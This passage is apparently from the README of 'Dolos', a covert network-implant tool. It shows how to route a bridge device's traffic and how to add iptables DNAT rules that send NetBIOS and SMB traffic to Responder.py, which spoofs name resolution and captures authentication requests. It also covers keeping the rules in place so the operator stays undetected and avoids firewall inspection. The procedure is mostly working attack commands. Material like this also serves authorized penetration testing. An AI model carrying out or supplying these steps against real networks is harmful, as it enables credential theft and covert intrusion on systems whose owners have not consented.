 ```
You can then add 'server 10.100.100.53' to your /etc/resolv.conf and your laptop/VM will have access 10.100.0.0/16 subnet.

##### WARNING:

If the target network is using the same range as your default route, you may drop your own network connection. In this example, if your target network was also using 192.168.1.0/24, you would want to connect your Eth0 to some other network that is not using this range before proceeding.

#### Give the Dolos Device Internet Access

By default, the tool does not set the bridge interface as the default route. This is to avoid creating traffic that will traverse the network perimeter where it may be inspected by the firewall. To allow outbound Internet traffic from the bridge, set it as the default route. There is a button in the web UI to do this. You can also run the following commands manually:

```
#delete any existing default route. This may error out. Don't worry if it does
ip route del default
ip route add default via 169.254.66.55 dev mibr
```

#### Packet Capture / Relay

Because of the NAT, you will not be able to just bind an interface/port and start mangling traffic. You will need to add iptables rules to let the Dolos device know which protocols you want to take control of. For example, if you want to use Responder.py to spoof NetBIOS and capture SMB authentication requests, you would need the following iptables rules:

```
#Any NetBIOS Name Resolution request
/sbin/iptables -t nat -A PREROUTING -i mibr -p tcp --dport 137 -j DNAT --to 169.254.66.77:137
/sbin/iptables -t nat -A PREROUTING -i mibr -p udp --dport 137 -j DNAT --to 169.254.66.77:137
#Any NetBIOS session packet
/sbin/iptables -t nat -A PREROUTING -i mibr -p tcp --dport 139 -j DNAT --to 169.254.66.77:139
/sbin/iptables -t nat -A PREROUTING -i mibr -p udp --dport 138 -j DNAT --to 169.254.66.77:138
#Any SMB packet
/sbin/iptables -t nat -A PREROUTING -i mibr -p tcp --dport 445 -j DNAT --to 169.254.66.77:445
/sbin/iptables -t nat -A PREROUTING -i mibr -p udp --dport 445 -j DNAT --to 169.254.66.77:445
```

You can then run Responder.py on the bridge interface:

```
Responder.py -I mibr
```

This works by redirecting the traffic we want directly to the virtual IP of the bridge interface itself (169.254.66.77)

To make Responder.py more useful, you will want to add rules like these for all the protocols you want to manipulate.

You can also send these packets to your laptop/VM to run the attack. Simply modify the --to flag to point to your laptop/VM 172.31.255.X IP instead of 169.254.66.77.

##### WARNING:

Do not FLUSH your iptables rules when you are done! We need the other rules set up during the attack to keep us undetected. Instead, individually delete rules like this:

```
/sbin/iptables -t nat -D PREROUTING -i mibr -p tcp --dport 137 -j DNAT --to 169.254.66.77:137
```
```